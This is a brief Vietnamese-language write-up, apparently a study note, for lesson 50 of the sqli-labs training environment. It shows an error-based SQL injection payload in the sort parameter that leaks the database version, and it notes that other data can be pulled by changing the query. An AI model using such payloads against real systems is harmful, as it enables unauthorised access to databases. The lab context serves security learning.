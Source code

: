 # Những việc làm được với lesson-50
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-50

![](../images/lesson50/screen_4.png)

Ta thử đăng nhập và sử dụng ký tự đặc biệt vào đó 

![](../images/lesson50/screen.png)

Ta nhận được kết quả có thông báo lỗi và ta có thể sử dụng được error-base 

```
192.168.80.225/sqli-labs/Less-50/?sort=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson50/screen_1.png)

Tương tự như thế ta có thể biết được những dữ liệu của DB thông qua cách thay đổi câu truy vấn 

